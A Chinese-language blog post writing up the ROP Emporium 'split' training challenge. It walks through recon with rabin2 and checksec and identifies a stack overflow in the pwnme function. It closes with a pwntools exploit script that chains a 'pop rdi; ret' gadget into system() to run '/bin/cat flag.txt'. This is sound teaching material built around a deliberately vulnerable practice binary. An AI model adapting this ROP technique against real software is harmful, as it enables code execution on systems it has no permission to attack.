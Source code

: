 ```yaml
---

layout: post

title: 'rop练习--split'

date: '2017-09-28'

header-img: "img/home-bg.jpg"

tags:
     - pwn rop  
author: 'De4dCr0w'

---
```


这里只是一道简单的栈溢出问题，但是因为设置NX，所以要通过rop来执行shellcode。
参考链接：https://medium.com/@iseethieves/intro-to-rop-rop-emporium-split-9b2ec6d4db08

<!-- more -->

### 前期信息搜集

这篇文章里前期用到了radare2这个工具来查看程序信息，之前没用过，学习一波。
用rabin2 -I 来查看程序的架构等信息，其实用file就可以。

![](https://i.imgur.com/1ABdVNa.png)

用rabin2 -izz 来查找信息，用strings也是可以的。

![](https://i.imgur.com/BUS0aHM.png)

然后用checksec查看一下防护措施：

![](https://i.imgur.com/EcTxHlj.png)

### 查看反汇编

> main函数：

![](https://i.imgur.com/GX8ukps.png)

> pwnme函数：

![](https://i.imgur.com/7fSyZ5f.png)

很明显s数组是0x20的大小，而后面的fgets却接受了96大小的数据。

> usefulFunction函数：

![](https://i.imgur.com/I2ntNJn.png)

竟然还有这种函数，好吧，我是看腾讯玄武每日推送打开这篇文章的。。。

现在就看看怎么构造rop了？

X64 下函数参数传递的顺序为：RDI，RSI，RDX，R10，R8，R9，所以我们把system里的参数变成”/bin/cat flag.txt“就行了，即这个参数传入rdi寄存器中。用ropper搜索 ”pop rdi; ret;“，pop rdi；就是将栈顶的数据弹给rdi，然后ret返回执行栈中的下一条指令，我们填充的system的地址，这样我们就实现攻击了。

![](https://i.imgur.com/Tca3YFD.png)

rop的步骤：

* 利用fgets()来填充buffer，将返回地址覆盖为pwnme的地址
* 建立rop链把'/bin/cat flag.txt'传入RDI寄存器
* 调用system()


### exp.py

	# coding: utf-8
	from pwn import *
	context.log_level = 'debug'
	elf = context.binary = ELF('split')
	system_addr = 0x400810
	cat_addr = 0x601060
	pop_rdi_ret = 0x400883
	fake_ret = 0x42424242
	p = process(elf.path)
	p.sendline(cyclic(128))#产生128个随机字符
	p.wait()
	core = p.corefile#获取崩溃文件，根据崩溃文件来得到rsp的地址
	stack = core.rsp
	info("stack: %#x",stack)
	pattern = core.read(stack,4)#读取rsp保存的内容，即随机字符
	offset = cyclic_find(pattern)#根据随机字符找偏移，这里其实简单一算：0x20+8（rbp）=0x28=40个偏移
	info("pattern: %r", pattern)
	info("offset: %d",offset)
	rop_chain = p64(pop_rdi_ret)
	rop_chain += p64(cat_addr)
	rop_chain += p64(system_addr)
	rop_chain += p64(fake_ret)
	padding = cyclic(offset)
	payload = padding + rop_chain
	p = process(elf.path)
	p.sendline(payload)
	p.interactive()
	

运行结果图：

![](https://i.imgur.com/UHIz5FG.png)

### 结论

这篇文章讲的这道还是很简单的，了解了radare2这个工具，下面这个网站上有很多rop的题可以练习，然后之前还看到一个srop的东西，抽空把这个坑填上。

split下载地址：https://ropemporium.com/